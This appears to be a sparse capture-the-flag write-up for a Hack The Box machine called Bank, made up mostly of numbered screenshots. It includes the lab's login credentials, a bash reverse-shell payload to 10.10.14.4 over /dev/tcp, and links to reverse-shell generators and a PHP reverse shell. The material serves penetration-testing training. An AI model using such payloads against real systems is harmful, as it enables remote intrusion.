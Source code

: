 1.

2. 
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/3a8d03ce-6644-4a77-b25a-62a37f81fe5e)

Website:<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/4d75ea1a-0ee0-4043-ab12-1c4723a417d8)

3.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/56060574-586b-49e9-8c89-11767235897c)

4.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/983c2b5d-6a77-42e9-9212-9432426c9f91)

5.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/9a5fd218-6ba1-43a9-bf26-197780120082)

6.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/16f79c16-d0b8-4b3b-9ca4-1fe5490f989b)

7.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/80db165b-156a-4cda-9a1c-44d05e9b3af2)

Email:chris@bank.htb<br>
Password:!##HTBB4nkP4ssw0rd!##<br>

After Login:<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/2b1071fd-84a8-462b-bb0f-950a338d076e)

8.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/398599ce-83cd-4721-8f86-349407801036)

9.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/0d186ff2-f5d8-4718-a7b9-eaa3b7333197)


10. [link](https://www.revshells.com/)

Payload: bash -c "bash -i >& /dev/tcp/10.10.14.4/777 0>&1"

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/df5e05a6-8f8b-49a2-bc83-d7fda57735e2)

11.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/865f91da-ae43-45ac-ba0d-9f677021eacc)

12. [Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/3d6dcad6-9316-42b1-801c-dbe28eec3b6f)

Attacker Terminal:
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/0daeeb3d-7d38-4245-959a-73d22dd26409)

14.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/055453f7-3cd0-497c-bf68-bae88abdb754)

15.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/1148f8d8-0b9a-464f-9ec9-40a9775df200)

16.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/1dd2ddf5-490c-4469-a2cf-4c61ec741f3a)

17.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/c322a01f-6674-4bb9-ac4c-79bd6ffeb533)

18.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/19aa24e4-402d-4972-a8ab-d179156fccab)




































